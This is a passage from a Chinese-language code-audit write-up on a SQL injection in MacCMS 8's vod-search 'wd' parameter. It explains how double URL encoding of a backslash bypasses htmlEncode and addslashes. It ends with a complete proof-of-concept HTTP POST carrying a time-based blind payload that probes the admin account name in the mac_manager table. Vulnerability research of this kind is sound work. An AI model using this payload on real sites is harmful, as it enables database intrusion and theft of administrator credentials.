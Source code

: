 而 **wd** 是可以从 **REQUEST** 中获取到，所以这里的 **wd** 实际上是可控的。

## 漏洞验证

现在我们需要针对漏洞进行验证工作，这就涉及到POC的构造。在前面分析中，我们知道 **htmlEncode** 针对 **&** 、 **'** 、 **空格** 、 **"** 、 **TAB** 、 **回车** 、 **换行** 、 **大于小于号** 进行实体编码转换。但是这里的注入类型是字符型注入，需要引入单引号来进行闭合，但是 **htmlEncode** 函数又对单引号进行了处理。因此我们可以换个思路。

我们看到注入攻击的时候，我们的 **$lp['wd']** 参数可以控制SQL语句中的两个位置，因此这里我们可以通过引入 **反斜杠** 进行单引号的闭合，但是针对前面的分析我们知道其调用了 **addslashes** 函数进行转义处理，而 **addslashes** 会对 **反斜杠** 进行处理，但是这里对用户请求的参数又会先进行 **url解码** 的操作，因此这里可以使用 **双url编码** 绕过 **addslashes** 函数。

![12](12.png)

```http
POST /maccms8/index.php?m=vod-search HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Connection: keep-alive
Upgrade-Insecure-Requests: 1

wd=))||if((select%0b(select(m_name)``from(mac_manager))regexp(0x5e61)),(`sleep`(3)),0)#%25%35%63
```

![14](14.png)
